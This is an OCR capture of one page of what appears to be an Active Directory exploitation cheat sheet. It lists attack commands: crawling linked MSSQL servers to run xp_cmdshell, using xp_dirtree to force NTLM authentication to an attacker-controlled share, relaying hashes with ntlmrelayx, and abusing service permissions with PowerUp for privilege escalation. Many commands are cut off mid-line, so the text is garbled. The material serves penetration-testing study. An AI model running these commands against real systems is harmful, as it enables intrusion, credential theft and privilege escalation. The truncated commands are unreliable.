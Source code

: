 se

# Automatically find all linked databases
Get-SqlServerLinkCrawl -Instance dcorp-mssql | select in
# Run command if XP_CMDSHELL is enabled on any of the li
Get-SqlServerLinkCrawl -Instance dcorp-mssql -Query 'EXE
Get-SqlServerLinkCrawl -Instance dcorp-mssql -Query 'EXE

If you have low privileged access to a MSSQL database and no
links are present you could potentially force NTLM
authentication by using the xp_dirtree stored procedure to
access this share If this is successful the NetNTLM for the SQL
service account can be collected and potentially cracked or
relayed to compromise machines as that service account
EXEC master..xp_dirtree "\\192.168.49.67\share"

https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

20/31

Example command to relay the hash to authenticate as local
admin if the service account has these privileges and run
Leave out the -c parameter to attempt a
secretsdump instead
calc.exe

sudo impacket-ntlmrelayx --no-http-server -smb2support -

Privilege Escalation
For more things to look for both Windows and Linux

refer to my

OSCP cheat sheet and command reference

PowerUp
# Check for vulnerable programs and configs
Invoke-AllChecks
# Exploit vulnerable service permissions (does not requi
Invoke-ServiceAbuse -Name "AbyssWebServer" -Command "net
# Exploit vulnerable service permissions to trigger stab
Write-ServiceBinary -Name 'AbyssWebServer' -Command 'c:\
net stop AbyssWebServer
net start AbyssWebServer

UAC Bypass
Using SharpBypassUAC

